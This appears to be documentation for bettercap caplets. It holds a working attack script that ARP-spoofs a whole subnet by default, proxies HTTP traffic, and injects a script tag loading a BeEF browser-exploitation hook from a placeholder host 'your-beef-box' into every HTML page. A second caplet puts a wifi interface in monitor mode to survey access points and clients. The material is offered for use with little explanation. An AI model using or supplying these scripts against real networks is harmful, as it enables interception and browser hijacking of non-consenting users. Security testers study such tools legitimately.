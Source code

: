 #### beef-inject.cap

Use a proxy script to inject a BEEF javascript hook:

```sh
# targeting the whole subnet by default, to make it selective:
#
#   sudo ./bettercap -caplet beef-active.cap -eval "set arp.spoof.targets 192.168.1.64"

# inject beef hook
set http.proxy.script beef-inject.js
# redirect http traffic to a proxy
http.proxy on
# wait for everything to start properly
sleep 1
# make sure probing is off as it conflicts with arp spoofing
arp.spoof on
```

The `beef.inject.js` proxy script file:

```javascript
function onLoad() {
    console.log( "BeefInject loaded." );
    console.log("targets: " + env('arp.spoof.targets'));
}

function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript" src="http://your-beef-box:3000/hook.js"></script></head>' 
            ); 
        }
    }
}
```

#### airodump.cap

Put a wifi interface in monitor mode and listen for frames in order to detect WiF access points and clients.

```
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}
set ticker.commands clear; wifi.show

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```
